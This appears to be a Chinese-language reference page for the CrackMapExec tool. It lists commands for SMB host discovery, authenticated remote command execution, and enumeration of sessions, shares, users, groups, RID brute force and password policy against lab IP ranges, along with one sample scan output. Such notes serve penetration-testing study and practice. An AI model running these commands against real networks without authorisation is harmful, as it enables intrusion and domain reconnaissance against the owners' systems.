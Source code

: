 **语句格式**

基本信息探测，可选协议有：`'smb', 'winrm', 'ldap', 'mssql', 'ssh'`

```bash
基本探测
crackmapexec smb test.com
crackmapexec smb 192.168.91.0/24
crackmapexec smb 192.168.91.0-77  192.168.91.0-20
crackmapexec smb ~/ip.txt

携带认证信息
crackmapexec smb 192.168.91.0 -u administrator -p 'Abcd1234'
crackmapexec smb 192.168.91.0 -u='-administrator' -p='-Abcd1234'   # 第一个字母为-的特殊情况语句

执行命令

crackmapexec smb 192.168.3.144 -u administrator -p 'Abcd1234' -x whoami
```

[![](assets/1702372940-691900f9a5550f994cdfa94dff0d4712.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/49.png)

**协议探测**

```bash
┌──(root💀kali)-[/home/kali]
└─# crackmapexec smb 192.168.91.11-128                                                                                                                   1 ⨯
SMB         192.168.91.11   445    WIN-A5GPDCPJ7OT  [*]  x64 (name:WIN-A5GPDCPJ7OT) (domain:test.com) (signing:True) (SMBv1:True)
```

**常见命令**

```bash
# Sessions枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --sessions

# 共享枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --shares

# 磁盘枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --disk

# 登录用户枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --loggedon-users

# RID爆破枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --rid-brute

# 域用户枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --users

# 组枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --groups

# 本地组枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --local-groups

# 域密码策略枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --pass-pol
```